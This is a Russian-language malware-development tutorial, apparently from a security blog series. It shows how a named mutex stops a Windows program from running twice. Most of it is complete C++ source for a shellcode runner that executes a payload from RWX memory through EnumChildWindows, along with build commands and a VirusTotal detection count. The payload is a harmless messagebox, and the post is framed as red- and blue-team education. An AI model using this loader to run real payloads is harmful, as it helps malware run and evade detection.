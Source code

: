 \newpage
\subsection{39. трюки разработки вредоносного ПО. Mutex. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![инъекция](./images/84/2023-01-04_12-50.png){width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: предотвращение повторного запуска с помощью мьютексов.     

Иногда при разработке вредоносного ПО для максимальной скрытности необходимо, чтобы программа запускалась только один раз. Для этого, согласно [документации MSDN](https://learn.microsoft.com/en-us/dotnet/standard/threading/mutexes), мы можем использовать мьютексы.

### мьютекс

Для простоты можно использовать функцию `CreateMutexA` из Windows API:    

```cpp
HANDLE CreateMutexA(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCSTR                lpName
);
```

### практический пример

В самой простой реализации можно использовать эту функцию следующим образом:    

Создать мьютекс с определённым именем, чтобы несколько экземпляров могли его обнаружить:    

```cpp
hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
```

Проверить, существует ли мьютекс, и выйти из приложения, если он уже есть:    

```cpp
if (GetLastError() == ERROR_ALREADY_EXISTS) {
  // if this process created the mutex, exit the application
  if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
    CloseHandle(hMutex);
    return 0;
  }
}
```

В противном случае выполняем вредоносную логику и закрываем мьютекс после завершения:    

```cpp

//...
// malicious logic
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

//...

// cleanup
if (hMutex)
  CloseHandle(hMutex);
return 0;
```

Таким образом, полный исходный код выглядит следующим образом:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/01/04/malware-tricks-26.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Как можно заметить, я использую запуск шеллкода [через EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). Также, как обычно, использую полезную нагрузку `meow-meow` с messagebox.     

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![инъекция](./images/84/2023-01-04_12-39.png){width="80%"}    

Затем переносим на машину жертвы (в моём случае `Windows 10 x64`) и запускаем:    

```powershell
.\hack.exe
```

![инъекция](./images/84/2023-01-04_12-38.png){width="80%"}    

Затем пытаемся запустить этот "вредонос" снова из другого терминала Powershell:    

![инъекция](./images/84/2023-01-04_12-41.png){width="80%"}    

Как можно заметить, ничего не запустилось, у нас есть только одно окно messagebox.    

Для проверки корректности можно добавить в код некоторые отладочные сообщения:    

```cpp
/*
 * hack.cpp - Create mutex, run shellcode. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/
*/
#include <windows.h>
#include <cstdio>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE hMutex;
  // create mutex with a name so multiple instances can detect it
  hMutex = CreateMutexA(NULL, FALSE, "MeowMeowMutex");
  // check if the mutex already exists
  if (GetLastError() == ERROR_ALREADY_EXISTS) {
    // if this process created the mutex, exit the application
    if (hMutex && GetLastError() == ERROR_ALREADY_EXISTS) {
      printf("MeowMeowMutex already exists, app already running =^..^=\n");
      CloseHandle(hMutex);
      return 0;
    }
  }

  // shellcode running logic
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);

  // cleanup
  if (hMutex)
    CloseHandle(hMutex);
  return 0;
}
```

Затем повторяем наши шаги снова:    

![инъекция](./images/84/2023-01-04_12-49.png){width="80%"}    

Как можно заметить, всё сработало идеально!    

Давайте загрузим `hack.exe` на VirusTotal:    

![инъекция](./images/84/2023-01-04_13-44.png){width="80%"}    

**Итак, 17 из 62 антивирусных движков определили наш файл как вредоносный.**     

[https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details](https://www.virustotal.com/gui/file/153d249063f46b0d56603d7aab7e43a3361d74e9852367d8730f5e57fb9f5b9f/details)      

Этот трюк, например, используется такими злоумышленниками, как [Conti ransomware](https://attack.mitre.org/software/S0575/), [Hellokitty ransomware](https://attack.mitre.org/software/S0617/) и [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) в реальной среде.    

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.    

[Conti](https://attack.mitre.org/software/S0575/)      
[Hellokitty](https://attack.mitre.org/software/S0617/)      
[Hellokitty source code](https://github.com/Black-Hell-Team/Hello-Kitty)     
[AsyncRAT source code](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)    
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2023-01-04-malware-tricks-26)     
